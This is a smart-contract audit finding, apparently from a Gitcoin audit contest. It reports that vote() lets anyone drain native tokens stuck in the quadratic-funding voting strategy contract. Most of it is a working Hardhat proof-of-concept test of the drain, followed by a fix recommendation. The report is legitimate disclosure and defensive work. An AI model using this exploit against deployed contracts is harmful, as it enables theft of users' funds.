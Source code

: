 modern_Alchemist_00

high

# [H] - Any individual can drain out the native tokens from the voting strategy contract

## Summary

Any native tokens that reside in the voting strategy contract(QuadraticFundingVotingStrategyImplementation.sol) can be drained out.
Even though the Voting Strategy contract is not expected to hold any funds, but there is a possibility that this contract may hold funds due to incorrect inputs by user.
And if that happens, an attacker can simply execute the `vote()` with msg.value as 0 and with the following parameters encoded:-
```javascript
[
  ethers.constants.AddressZero, // specifying native token
  ethers.utils.parseEther("100"), // amount in the voting strategy contract
  attackerGrantAddress, // attacker controlled wallet
  attackerProjectID, // some project id
],
```
The above project doesn't actually exist or hasn't applied for this round. And since the vote() doesn't validate this, anyone can call the vote() with any parameters.
If 100 ether was present in the voting strategy contract, it will be drained by the attacker by executing the above transaction

## Vulnerability Detail

Here's a test to show that the above theory can be performed.
Please include the below test in the RoundImplementation.test.ts file under the `describe("test: vote")` block
Also add `anotherUser` and `attacker` to the `ethers.getSigners()` function

```javascript
it.only("Any individual can withdraw an arbitrary amount of native tokens from the voting strategy contract.", async () => {
        
        await ethers.provider.send("evm_mine", [_currentBlockTimestamp + 900]);

        let newEncodedVotes: BytesLike[] = [];

        await mockERC20.connect(anotherUser).mint(ethers.utils.parseEther("100"))
        await mockERC20.connect(anotherUser).approve(votingStrategyContract.address, ethers.utils.parseEther("100"))
        // a user wrongly votes with native tokens but he wanted to use erc20 token. 
        // This is just to show that funds can somehow end up in the voting strategy contract
        const votes = [
          [
            mockERC20.address,
            ethers.utils.parseEther("100"),
            Wallet.createRandom().address,
            formatBytes32String("SomeGrantThatApplied"),
          ],
        ];

        for (let i = 0; i < votes.length; i++) {
          newEncodedVotes.push(
            ethers.utils.defaultAbiCoder.encode(
              ["address", "uint256", "address", "bytes32"],
              votes[i]
            )
          );
        }

        // unknowingly sends ether
        await roundImplementation.connect(anotherUser).vote(newEncodedVotes, {value: ethers.utils.parseEther("100")})

        // The votingStrategyContract gets funded by mistake from anotherUser
        expect(await ethers.provider.getBalance(votingStrategyContract.address)).to.eq(ethers.utils.parseEther("100"));

        // An attacker finds funds in the contract and can call the vote() with a wallet address that he controls.
        let attackerEncodedVotes: BytesLike[] = [];
        // Project ID can be anything as the vote() does not check if the projectId is in existence or not.
        // So that means the vote function can be called with any parameters that you want as there are no input validation.
        let attackerProjectID = ethers.utils.hexlify(ethers.utils.randomBytes(32));
        // attacker controlled address
        const attackerGrantAddress = Wallet.createRandom().address;

        const attackerVotes = [
          [
            ethers.constants.AddressZero, // specifying native token
            ethers.utils.parseEther("100"), // amount
            attackerGrantAddress, // attacker controlled wallet
            attackerProjectID, // some project id
          ],
        ];

        for (let i = 0; i < attackerVotes.length; i++) {
          attackerEncodedVotes.push(
            ethers.utils.defaultAbiCoder.encode(
              ["address", "uint256", "address", "bytes32"],
              attackerVotes[i]
            )
          );
        }

        // attacker calls vote, but does not send any money of his own.
        await roundImplementation.connect(attacker).vote(attackerEncodedVotes, {value: 0})

        // attack successfull
        expect(await ethers.provider.getBalance(attackerGrantAddress)).to.eq(ethers.utils.parseEther("100"));
        expect(await ethers.provider.getBalance(votingStrategyContract.address)).to.eq(0);

      })
```

## Impact

Any funds residing in the QuadraticFundingVotingStrategyImplementation.sol contract can be drained.

## Code Snippet
- https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/round/RoundImplementation.sol#L430

## Tool used

Manual review, Hardhat

## Recommendation

Adding a check to see if the projectId actually exists before letting someone to vote would solve this issue to some extent.
